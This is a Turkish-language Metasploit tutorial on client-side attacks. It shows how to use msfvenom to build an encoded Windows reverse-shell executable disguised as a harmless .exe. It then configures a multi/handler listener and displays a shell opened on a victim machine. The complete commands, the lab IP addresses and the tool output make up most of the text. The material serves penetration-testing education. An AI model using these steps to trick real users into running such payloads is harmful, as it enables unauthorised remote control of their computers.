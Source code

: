 ```yaml
---
draft: false
title: MSF Binary Payloads
linkTitle: MSF Binary Payloads
translationKey: msf-binary-payloads
weight: 220
date: 2017-05-20T13:10:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: binary payloads olarak adlandırılan çalıştırılabilir dosyalar, zararsız .exe dosyaları gibi görünse de aslında içinde tehlikeli kodlar bulunduran dosyalardır.
url: /tr/msf-binary-payloads/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

## İstemci Taraflı Saldırılar

İstemci tarafı saldırılar, tüm ağ yöneticilerinin dikkat etmesi gerekli türden saldırılardır. Sisteminizin güvenliğini ne kadar sağlasanız da istemci tarafı saldırılar, kullanıcılarınızın zafiyetlerini kullanırlar.

Pentest işlemi gerçekleştirenler, sistemde bulunan kullanıcının, bir şekilde linke tıklamasını veya zararlı yazılım çalıştırmasını sağladığında kendilerine hedef sistemde kapı açmış olurlar. Bu sebeple, istemci taraflı saldırılar, kullanıcıyla etkileşim gerektirmektedir. Bu tür saldırılar, sosyal mühendislik çalışmalarını da gerektirir.

Metasploit Framework, bu tür zararlı kodların oluşturması için bir çok modül sağlamaktadır.

## binary payloads

binary payloads olarak adlandırılan çalıştırılabilir dosyalar, zararsız .exe dosyaları gibi görünse de aslında içinde tehlikeli kodlar bulunduran dosyalardır. Dosyayı alacak kullanıcıya, önemli bir dosya hissi uyandırarak tıklaması sağlanır ve zararlı kod çalışır.

Bu yazıda, Metasploit Framework tarafından sağlanan `msfvenom` komut satırı aracı kullanılacaktır. `msfvenom` kullanarak `.exe`, `perl` veya `c` program çıktıları elde edebilirsiniz. Burada `.exe` formatı kullanılacaktır.

## Windows Reverse Shell Açan Payload Oluşturma

Hedef kullanıcının zararlı programı çalıştırdığında dinleyen IP adresine bağlanması için bir payload oluşturmak için `windows/shell/reverse_tcp` modülünü kullanacağız. Öncelikle bu modülün çalışmak için hangi değişkenlere ihtiyaç duyduğuna bakalım.

```bash
root@kali:~# msfvenom --payload-options -p windows/shell/reverse_tcp
Options for **payload/windows/shell/reverse_tcp:
       Name: Windows Command Shell, Reverse TCP Stager
     Module: payload/windows/shell/reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 281
       Rank: Normal

Provided by:
    spoonm 
    sf 
    hdm 
    skape 

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell (staged). Connect back to the attacker
```

Bu modül, çıktıda görüldüğü gibi `LHOST` ve `LPORT` değişkenlerinin ayarlanmasına ihtiyaç duymaktadır. Hedef platform olarak x86 mimari ve Windows işletim sistemi seçilmiştir. Oluşturacağımız payload için bir encoder kullanmamız gerekiyor. Bunun için de `x86/shikata_ga_nai` encoder modülünü kullanacağız. Bu şartlar altında aşağıdaki komut, encoder kullanarak `/tmp` klasörünün içinde `1.exe` isimli bir dosya oluşturacaktır.

```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=172.16.104.130 LPORT=31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: /tmp/1.exe
```

`1.exe` dosyamızın türünü kontrol edelim. `file` komutuyla yaptığımız kontrolde `1.exe` doyasının MS Windows dosyası olduğu aşağıda görülmektedir.

```bash
root@kali:~# file /tmp/1.exe
/tmp/1.exe: PE32 executable (GUI) Intel 80386, for **MS Windows
```

## Dinleme Ayarları

Elimizde istemcinin tıklayıp çalıştıracağı `1.exe` dosyası artık hazır durumda. Şimdi, tıklama işlemi gerçekleştiğinde dinleyecek bir modülü çalıştırmamız gerekiyor. Bunun için `exploit/multi/handler` modülünü ve içinde `payload windows/shell/reverse_tcp` dinleyici payload u kullanacağız.

Öncelikle `exploit/multi/handler` modülünü yükleyip seçeneklere bakalım.

```bash
msf > use exploit/multi/handler
msf exploit(handler) > show options

Module options:

   Name  Current Setting  Required  Description 
   ----  ---------------  --------  ----------- 
Exploit target:

   Id  Name            
   --  ----            
   0   Wildcard Target
```

Gördüğünüz gibi exploit modülünde herhangi bir zorunlu değişken bulunmuyor. Şimdi payload ayarlaması yapalım.

```bash
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST                      yes       The local address
   LPORT     4444             yes       The local port
Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target 
```

Bu çıktıda görülmektedir ki Payload için `LHOST` ve `LPORT` değerlerinin girilmesi gerekmekte.

`LHOST`: Local Host yani yerelde dinleyecek IP adresini,

`LPORT`: Local Port, yani dinleyecek Port numarasını ifade eder.

Bu değerlerin, `msfvenom` komutuyla oluşturduğumuz `1.exe` dosyası için girdiğimiz değerler ile aynı olmasına dikkat edin. `1.exe` dosyası içinde hangi değerler gömülü ise zararlı yazılım bu bilgilere göre haberleşme sağlamak isteyecektir.

```bash
msf exploit(handler) > set LHOST 172.16.104.130
LHOST => 172.16.104.130
msf exploit(handler) > set LPORT 31337
LPORT => 31337
msf exploit(handler) >
```

Tüm ayarlamaları yaptıktan sonra `exploit` komutuyla modül çalıştırılır ve dinlemeye başlanır. Aşağıda, dinleme sonucunda gerçekleşen bir istemci tıklaması sonucu açılan komut satırı görülmektedir.

```bash
msf exploit(handler) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Starting the payload handler...
> Sending stage (474 bytes)
> Command shell session 2 opened (172.16.104.130:31337 -> 172.16.104.128:1150)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Victim\My Documents>
```
